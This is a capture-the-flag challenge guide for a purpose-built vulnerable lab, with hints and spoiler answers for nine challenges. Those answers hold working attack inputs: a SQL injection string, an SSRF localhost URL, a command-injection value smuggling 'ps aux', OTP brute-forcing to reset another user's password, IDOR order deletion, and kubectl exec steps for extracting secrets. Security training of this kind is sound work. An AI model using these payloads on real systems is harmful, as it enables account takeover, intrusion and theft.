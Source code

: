 ![logo](/assets/Logo-Components-1.svg)

# Upwind CTF – Break Out of the System

Welcome to the Upwind Capture The Flag!.

Scenario: You're operating **inside the system construct**, a simulated environment riddled with misconfigured APIs, privileged flaws, and exposed telemetry.  
Your goal: **exploit runtime vulnerabilities and escape**. No solutions are given—only patterns, trails, and signals.

> **Start-up Sequence**
> - Use: `http://user-<digit>-ctf.ctf.upwind.sh/`
> - Your `session cookie` = your identity.
> - Credentials are embedded in the HTML source of the login page.
> - If issues persist, contact your assigned Upwind CTF Operator.

![homepage](/assets/homepage.png)
---

## Challenge 1 – Internal Operations Overflow

**Goal:** Boost your job’s internal operation counter to ≥ 1,000,000.

<details>
  <summary><strong>Show Hints</strong></summary>

  - An endpoint allows increasing your job's operation count.
  - The system does not validate upper bounds—leverage that.

  <details>
    <summary>Still stuck?</summary>
    Did you try:

   >POST {{baseUrl}}/job/add_operations?amount="amount"
  
  </details>
</details>

---

## Challenge 2 – Query bluePill Order Telemetry

**Goal:** Determine the number of pills ordered by `bluePill`.

<details>
  <summary><strong>Show Hints</strong></summary>

  - POST `/orders` with a `username` payload.
  - Override the username to `bluePill`.

  <details>
    <summary>Still stuck?</summary>
    Use body:

   >{ "username": "bluePill" }

  </details>
</details>

---

## Challenge 3 – Discover Peer in Same Role

**Goal:** Identify another user with your role (not `bluePill`).

<details>
  <summary><strong>Show Hints</strong></summary>

  - Use `GET /orders/{orderId}` to enumerate.
  - Try a range of order IDs and inspect metadata.

  <details>
    <summary>Still stuck?</summary>
    Try 

   > GET /orders/206. 

Then look at the `username` field.
  </details>
</details>

---

## Challenge 4 – Remote Order Deletion

**Goal:** Delete another user's order.

<details>
  <summary><strong>Show Hints</strong></summary>

  - Use the HTTP DELETE method.
  - Use a target order ID you do not own. (you found one in Challenge 3)

  <details>
    <summary>Still stuck?</summary>
    Try 
    
   > DELETE {{baseUrl}}/orders/206 

  </details>
</details>

---

## Challenge 5 – OTP Reset Breach

**Goal:** Reset the password of another user via OTP brute-force.

<details>
  <summary><strong>Show Hints</strong></summary>

  - Trigger an OTP using: `POST /auth/reset-password`
  - Brute-force the OTP (000–999)

  <details>
    <summary>Still stuck?</summary>

   > POST /auth/reset-password
   
   with payload:
   > { "username": "smith" }

Then:
    
   > POST /auth/change-password
    
   with payload
   
   > {
      "username": "user",
      "otp": "xyz",
      "new_password": "newpass"
    }

Use a runner or script to iterate all combinations.
  </details>
</details>

---

## Challenge 6 – Discover Database Viewer

**Goal:** Identify the application used to visualize logs.

<details>
  <summary><strong>Show Hints</strong></summary>

  - `/diagnostics/get_logs` has an injectable field.
  - Classic SQL injection techniques apply.

  <details>
    <summary>Still stuck?</summary>
Payload:

  >  { "username": "user1' OR '1'='1" }
 
Response will expose app logs and CLI startup script.
  </details>
</details>

---

## Challenge 7 – Extract Admin Credentials

**Goal:** Read admin data via SSRF.

<details>
  <summary><strong>Show Hints</strong></summary>

  - The profile picture field accepts remote URLs.
  - The admin DB interface runs locally. You know the technology (challenge 6)

  <details>
    <summary>Still stuck?</summary>
Try:

  >  http://127.0.0.1:8001/app/users.json

as your new profile image URL.
  </details>
</details>

---

## Challenge 8 – Runtime Process Enumeration

**Goal:** Discover another process running under a target user.

<details>
  <summary><strong>Show Hints</strong></summary>

  - `/diagnostics` field is shell-executed.
  - Use `ps aux | grep`.

  <details>
    <summary>Still stuck?</summary>
    Example:

  >  { "target": "localhost && ps aux | grep <<username>>" }

  </details>
</details>

---

## Challenge 9 – Kubernetes Secret Extraction

**Goal:** Use runtime access to extract a Kubernetes secret.

<details>
  <summary><strong>Show Hints</strong></summary>

  - Escalate using `kubectl get pods`, then exec into another pod.
  - Extract secrets from the keymaker pod.

  <details>
    <summary>Still stuck?</summary>
    Sequence:

  >  kubectl get pods

  >  kubectl exec pod-name -- get secrets

  >  kubectl exec pod-name -- last command

  </details>
</details>

---

## Final Tips

- Cookies persist identity.
- Log all requests/responses.
- Sequence matters—reuse output.
- If stuck, test payloads locally before triggering them remotely.
- Challenges build on each other.
- A hidden internal service may reveal far more than it should.
- Trust the signals. Break the system.



---

**Ready to escape? Good luck.**
